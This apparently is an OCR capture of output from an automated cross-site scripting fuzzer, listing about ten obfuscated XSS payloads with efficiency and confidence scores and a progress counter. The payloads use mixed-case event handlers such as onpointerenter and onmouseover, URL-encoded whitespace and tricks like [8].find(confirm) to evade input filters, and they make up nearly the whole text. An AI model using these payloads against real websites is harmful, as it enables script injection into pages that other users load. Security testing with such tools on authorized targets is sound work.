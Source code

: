 ------------------------------------------------------------
 Payload: <deTAILs%09ONpointeREnTer+=+[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 430/1536
 
------------------------------------------------------------
 Payload: <details%09ONpOiNTErEntER%09=%09confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 431/1536
 
------------------------------------------------------------
 Payload: <D3v%0dONmOUSeOVeR%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 432/1536
 
------------------------------------------------------------
 Payload: <a%09onPOinTErEnteR%0d=%0da=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 433/1536
 
------------------------------------------------------------
 Payload: <HtmL%0aoNPoIntErENTer%0a=%0a[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 434/1536
 
------------------------------------------------------------
 Payload: <a%0aonPOInteRenTer%0a=%0a(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 435/1536
 
------------------------------------------------------------
 Payload: <a%0dOnmOuSeOvER%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 436/1536
 
------------------------------------------------------------
 Payload: <D3v%0aOnPOInterEntER%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 437/1536
 
 Progress: 438/1536
 
------------------------------------------------------------
 Payload: <A/+/oNMoUseover%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 439/1536
 